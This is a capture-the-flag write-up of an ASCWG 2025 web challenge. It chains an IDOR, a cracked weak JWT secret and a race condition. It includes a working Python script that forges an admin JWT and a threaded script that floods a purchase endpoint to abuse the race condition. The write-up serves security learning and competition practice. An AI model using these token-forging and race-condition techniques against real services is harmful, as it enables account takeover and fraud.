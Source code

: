 ```yaml
---
categories:
  - ASCWG
image:
  path: /assets/posts/Final shutdown/preview.jpg
layout: post
stags:
title: Final Shutdown
---
```


**Final Shutdown** was an awesome challenge I tackled during ASCWG 2025 — and guess what? I got **first blood** on it! This one had a mix of JWT forging, IDOR, and a sneaky race condition at the end. Super satisfying to solve from start to finish. Here's my full writeup on how I broke it down and took the car offline. Let’s dive in!


![](/assets/posts/Final shutdown/Final%20shutdown,.png)


We start off with a login page, so the first step was to register an account and log in.


![](/assets/posts/Final shutdown/Final%20shutdown,-1.png)

There wasn’t much of interest after logging in the functionality was pretty limited. So, I turned my attention to the JWT token we received.

![](/assets/posts/Final shutdown/Final%20shutdown,-4.png)

From the decoded token, we can see that the most relevant fields in the payload are `userId` and `vinCode`. That got me thinking: **What if we can find the `userId` of an admin and forge a valid token?** With not much else to go on, I began fuzzing directories to look for anything useful.

![](/assets/posts/Final shutdown/Final%20shutdown,-5.png)

Sure enough, I discovered a `/Car` directory.

![](/assets/posts/Final shutdown/Final%20shutdown,-6.png)

And it disclosed some user IDs! Referring back to the profile page, I noticed that the URL looked like this:

```
http://IP:PORT/profile.html?id=6667abb5-2d44-40b0-9430-69f1add3ef20
```

So I tested for an **IDOR (Insecure Direct Object Reference)** vulnerability by replacing the `id` parameter with some of the user IDs I found.

![](/assets/posts/Final shutdown/Final%20shutdown,-7.png)

Boom — it worked! I could access information about another user, and in this case, it turned out to be an admin. While I wasn't logged in as them, I now had **part of the data needed to forge a token**.

Looking closely at the profile, I noticed a barcode image.

![](/assets/posts/Final shutdown/Final%20shutdown,-8.png)

The image source was `/image/vin`, which I could download directly. I downloaded the barcode and ran it through an online barcode reader to extract its contents.

![](/assets/posts/Final shutdown/Final%20shutdown,-9.png)

That gave me the admin's `vinCode`. So now I had both the `userId` **and** `vinCode` of an admin user. The next step was to **forge the JWT token**.

I first tried to downgrade the algorithm to `"none"`, but that didn't work. So I tried brute-forcing the key — and sure enough, the secret key was **crackable**. I found it to be:


![](/assets/posts/Final shutdown/Final%20shutdown,-10.png)

we got it as **automotive**

Now I could forge a token that impersonated the admin user:

```python
import jwt

payload = {
    "userId": "f05f59c7-2227-44f3-8f57-2c74561250ea",
    "vinCode": "5YJSA1DN0CFS00187",
    "model": "Model X",
    "iat": 1754067093,
    "exp": 1794171999
}

secret = "automotive"

token = jwt.encode(payload, secret, algorithm="HS256")
print(token)
```

wrote this script to generate a jwt token 

![](/assets/posts/Final shutdown/Final%20shutdown,-11.png)

But there's one last thing: we still needed to **shut down the car**.

![](/assets/posts/Final shutdown/Final%20shutdown,-12.png)

Clicking the shutdown button showed a message saying we needed **at least 15 cubes** to shut down the vehicle. At the top of the screen, we could see we only had 5 cubes.

Time to get clever  the "Buy Selected Vehicle" button caught my eye. My first thought: **race condition**. What if we triggered multiple purchases at the same time? Each car costs 5 cubes, and we have 5. Maybe if we buy all three in parallel, we can trick the system.

After checking the network traffic, I found the endpoint:

```
http://IP:PORT/admin-cupe/buy
```
It takes a POST request with the following structure:

```
{
  "itemId": "item1",  // or item2, item3
  "itemOn": true
}
```

So I wrote this Python script to send requests for all three cars **at the same time** using threads:

```python
import threading
import requests

url = "http://34.9.3.251:3001/admin-cupe/buy"
token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJjYzkxNDZjNy1jODdjLTQ3MTEtOTA2Zi1kYWJiYzMxMWM5ZGUiLCJ2aW5Db2RlIjoiNVlKU0ExRE4wQ0ZTMDAxODciLCJtb2RlbCI6Ik1vZGVsIFkiLCJpYXQiOjE3NTQwNjcwOTMsImV4cCI6MTc1NDk3MTk5OX0.3C1tlaJzwnf7woQIYJleHWiT9tYpK8Bu6K4dbYJDvSk"

headers = {
    "Host": "34.9.3.251:3001",
    "Content-Type": "application/json",
    "Cookie": f"token={token}"
}

def buy_item(item_id):
    payload = {
        "itemId": item_id,
        "itemOn": True
    }
    try:
        r = requests.post(url, headers=headers, json=payload)
        print(f"[{item_id}] => {r.status_code} - {r.text}")
    except Exception as e:
        print(f"[{item_id}] Error: {e}")

items = ["item1", "item2", "item3"]
threads = []

for item in items:
    t = threading.Thread(target=buy_item, args=(item,))
    t.start()
    threads.append(t)

for t in threads:
    t.join()
```


![](/assets/posts/Final shutdown/Final%20shutdown,-13.png)

Success we now had **three cars purchased**, meaning we could **refund them and gain enough cubes** to shut down the vehicle.

![](/assets/posts/Final shutdown/Final%20shutdown,-14.png)

```
ASCWG{Y0u_H@v3_T4k3n_Th3_V3h!cl3_D0wn_Y0u_4r3_Th3_R34L_C@r_H@ck3r_!_}
```
It was an awesome challenge that combined multiple web vulns JWT manipulation, IDOR, and race conditions into one tight scenario. And claiming first blood made it even sweeter.
